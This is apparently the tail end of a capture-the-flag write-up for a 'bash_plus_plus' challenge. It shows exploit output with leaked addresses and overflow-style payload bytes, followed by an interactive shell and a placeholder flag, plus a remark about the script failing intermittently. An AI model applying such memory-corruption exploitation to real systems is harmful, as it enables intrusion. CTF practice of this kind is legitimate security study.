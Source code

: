 ```
b'94586601005984\n> '
b'Creating new log\n> '
b'sto\n> '
b'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX\xf0\xe2\xc0\xa8\x06V\n> '
b'Creating new log\n> '
b'Invalid variable vor: \xe8\xab\xa1r\x06V\n0\n> '
b'Creating new log\n> '
b'94585692966317\n> '
b'Creating new log\n> '
b'str\n> '
b'XXXXXXXXXXXXXXXXXXXXX0\xe5\xc0\xa8\x06V\n> '
[*] Switching to interactive mode
ESPF{FLAG}
[*] Process '/home/pierre/Documents/ctf/lakectf/bash_plus_plus/main' stopped with exit code 0 (pid 6510)
[*] Got EOF while reading in interactive
```
You have the flag!

Note: still a mystery to me, but sometimes, I need to run the script several times because I have an `IndexError: list index out of range`. I did not try to understand that here. If you have an idea, tell me.